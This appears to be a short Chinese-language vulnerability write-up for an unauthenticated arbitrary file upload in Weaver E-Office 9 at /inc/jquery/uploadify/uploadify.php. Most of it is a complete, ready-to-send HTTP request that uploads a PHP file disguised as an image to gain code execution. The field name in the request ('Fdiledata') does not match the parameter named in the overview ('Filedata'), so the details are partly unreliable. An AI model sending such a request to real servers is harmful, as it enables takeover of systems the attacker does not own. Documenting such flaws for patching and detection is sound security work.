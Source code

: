 #### 影响范围

泛微OA E-Office 9

#### 漏洞概述

泛微e-office 9.5版本源文件/inc/jquery/uploadify/uploadify.php存在问题，对参数Filedata的操作会导致不受限制的上传未经身份验证的恶意攻击者通过上传恶意文件从而获取目标服务器的控制权限

#### 漏洞复现

漏洞POC：

```
POST /inc/jquery/uploadify/uploadify.php  HTTP/1.1
Host: your-ip
Content-Length: 204
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: null
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarydRVCGWq4Cx3Sq6tt
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Connection: close
 
------WebKitFormBoundarydRVCGWq4Cx3Sq6tt
Content-Disposition: form-data; name="Fdiledata"; filename="6.php."
Content-Type: image/jpeg
 
<?php phpinfo();?>
------WebKitFormBoundarydRVCGWq4Cx3Sq6tt
```



